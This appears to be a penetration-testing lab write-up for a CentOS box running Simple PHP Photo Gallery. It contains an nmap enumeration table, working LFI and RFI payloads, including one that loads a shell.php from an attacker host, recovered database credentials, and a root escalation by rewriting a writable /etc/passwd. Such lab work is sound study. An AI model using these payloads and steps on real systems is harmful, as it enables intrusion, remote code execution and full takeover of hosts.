 # Box IP: 192.168.244.58

---

## System Info
- **OS/Tech:** CentOS 7, Apache 2.4.6 (httpd), PHP 5.4.16  
- **App:** Simple PHP Photo Gallery v0.8

---

## Credentials
- **User:** `michael`  
- **Password:** `HockSydneyCertify123`

---

##  Service Enumeration (`nmap -sC -sV`)
| Port    | State | Service          | Version / Notes                              |
| ------- | ----- | ---------------- | --------------------------------------------- |
| **21**  | open  | ftp              | vsftpd 3.0.2 – anonymous YES (no interesting files) |
| **22**  | open  | ssh              | OpenSSH 7.4                                   |
| **80**  | open  | http             | Apache 2.4.6 + PHP 5.4.16                     |
| **111** | open  | rpcbind          | RPC #100000 (no RCP creds known)              |
| **139** | open  | netbios-ssn      | Samba smbd 3.x–4.x (enum4linux → users)       |
| **445** | open  | netbios-ssn      | Samba smbd (same workgroup)                  |
| **3306**| open  | mysql            | MySQL (no anonymous access)                   |
| **33060**|open  | mysqlx           | MySQL X Protocol                             |

---

##  Exploits & Findings

### 1. LFI
```text
http://192.168.244.58/image.php?img=../../../etc/passwd%00
```
michael	1000	1000	/home/michael	/bin/bash 

### 2.RFI
http://192.168.244.58/image.php?img=http://192.168.45.183/shell.php

### 3. Database Credentials 
SELECT * FROM users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+

-- DB password: MalapropDoffUtilize1337

etc/passwd is writable by michael....

cp /etc/passwd /tmp/passwd.bak
sed -i 's/^michael:x:1000:1000:/michael:x:0:0:/' /etc/passwd
grep '^michael:' /etc/passwd
su  michael
whoami  # → root



